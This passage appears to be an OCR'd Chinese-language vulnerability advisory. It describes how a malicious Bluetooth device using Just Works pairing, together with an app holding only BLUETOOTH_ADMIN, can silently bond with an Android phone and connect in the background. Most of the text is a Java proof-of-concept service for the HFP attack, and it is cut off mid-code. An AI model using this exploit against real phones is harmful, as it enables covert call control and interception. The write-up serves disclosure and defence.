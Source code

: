 - 需要注意的是，选择哪种配对方式是由较弱I/O能力的一方决定的，所以只要有一方是NoInputNoOutput，就一定会选择Just Works。
- 同时在Android系统中，蓝牙设备是否连接的状态指示对于用户来说是相似、模糊的，所以用户并不能很好的区分当前手机是否已经连接到了某个蓝牙设备。
- 基于以上事实，攻击者可以构造一个I/O能力为NoInputNoOutput，配对方式为Just Works的恶意蓝牙设备，并且在受害者手机上预知一个不需要任何敏感权限，仅需要声明`BLUETOOTH_ADMIN`权限的恶意应用在后台偷偷连接到恶意的蓝牙设备上。根据恶意蓝牙设备配置的不同的配置文件，可以实现多种攻击。

## 三、漏洞影响
- 根据恶意蓝牙设备的配置文件不同，可以实现不同的攻击效果。例如HFP可以实现任意号码拨打和通话控制，PAN可以实现网络流量代理进行中间人攻击，HID可以利用快捷键实现屏幕截图等。
- 使用HFP进行攻击的PoC如下：
```java
public class HfpService extends Service {
    private static final String TAG = "HfpService";
    private static final String BT_ADDR = "XX:XX:XX:XX:XX:XX";
    private BluetoothAdapter mBtAdapter;
    private BluetoothHeadset mBtHandset;

    @Nullable
    @Override
    public IBinder onBind(Intent intent) {
        throw new UnsupportedOperationException("onBind unsupported");
    }

    @Override
    public int onStartCommand(Intent intent, int flags, int startId) {
        mBtAdapter = BluetoothAdapter.getDefaultAdapter();
        if (mBtAdapter == null) {
            return super.onStartCommand(intent, flags, startId);
        }
        mBtAdapter.getProfileProxy(this, new ServiceListener(), BluetoothProfile.HEADSET);
        final BluetoothDevice btDevice = getBtDevice(BT_ADDR);
        Thread connectThread = new Thread(new Runnable() {
            @Override
            public void run() {
                do {
                    if (btDevice.getBondState() != BluetoothDevice.BOND_BONDING) {
                        Log.d(TAG, "connectThread, try to create bond");
                        btDevice.createBond();
                    } else {
                        Log.d(TAG, "connectThread, during bonding, skipped");
                    }
                    try {
                        Thread.sleep(1000);
                    } catch (InterruptedException e) {
                        Log.e(TAG, "connectThread, connect interrupted");
                    }
                } while (btDevice.getBondState() != BluetoothDevice.BOND_BONDED);
                Log.i(TAG, "connectThread, create bond OK");
                do {
                    if (mBtHandset.getConnectionState(btDevice) != BluetoothProfile.STATE_CONNECTING) {
                        Log.d(TAG, "connectThread, try to connect");
                        connect(btDevice);
                    } else {
                        Log.d(TAG, "connectThread, during connecting, skipped");
                    }
                    try {
                        Thread.sleep(1000);
                    } catch (InterruptedException e) {
                        Log.e(TAG, "connectThread, connect interrupted");
                    }
                } while(mBtHandset.getConnectionState(btDevice) != BluetoothProfile.STATE_CONNECTED);
                Log.i(TAG, "connectThread, connect OK");
                connectAudio();
```